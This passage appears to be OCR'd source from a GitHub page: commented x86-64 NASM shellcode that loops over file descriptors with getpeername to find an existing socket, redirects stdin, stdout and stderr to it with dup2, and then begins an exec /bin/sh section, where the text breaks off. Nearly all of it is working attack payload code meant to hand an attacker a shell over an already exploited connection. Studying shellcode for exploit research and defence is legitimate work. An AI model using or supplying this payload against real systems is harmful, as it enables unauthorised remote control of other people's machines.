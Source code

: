 ```nasm
    ;       After we found a sockfd IP Address will store at rsi+4.
    ;       You can add an IP checking if you want.

    xor rdx, rdx        ; rdx = 0
    mov rdi, rdx        ; rdi = 0
    
    ; rsi = *addr
    push rdx            ; prep stack for *addr
    push rdx            ; prep stack for *addr
    mov rsi, rsp        ; rsi = *addr

    ; rdx = *addr_len
    mov dl, 16          ; addr_len = 16
    push rdx            ; push addr_len to stack
    mov rdx, rsp        ; rdi = *addr_len

    ; syscall getpeername
    loop_findfd:
    ; rdi = sockfc
    inc rdi             ; inc every loop

    xor rax, rax        ; rax = 0
    mov al, 0x34        ; rax = 0x34
    syscall             ; call getpeername

    test rax, rax       ; if rax != 0 jmp to loop_findfd
                        ; else => rdi is sockfd -> dup2 
    jne loop_findfd


dup2:
    ; 2. Call dup2 sockfd with 0,1 and 2.
    ; int dup2(int oldfd, int newfd);
    ;   src: https://man7.org/linux/man-pages/man2/dup2.2.html
    ; dup2 syscall number: 0x21
    ;   rax = 0x21
    ;   rdi = sockfd
    ;   rsi = 0,1,2
    ;   src: https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md
    ; Solution:
    ;   1. Setup arg for dup2 function.
    ;   2. Call dup2 function.

    xor rsi, rsi        ; rsi = 0

    loop_dup2:
    mov rax, rsi
    mov al, 0x21        ; rax = 0x21
    syscall             ; call dup2(sockfd, rsi)

    inc rsi
    cmp sil, 0x3        ; if rsi != 3 jmp back to loop_dup2
                        ; else execv spawn shell
    jne loop_dup2



exec_shell:
    ; 3. Execute /bin/sh.
    ; I don't know how to write shellcode to spawn shell just use the snippet from http://shell-storm.org/shellcode/files/shellcode-806.php .

    xor rax, rax
```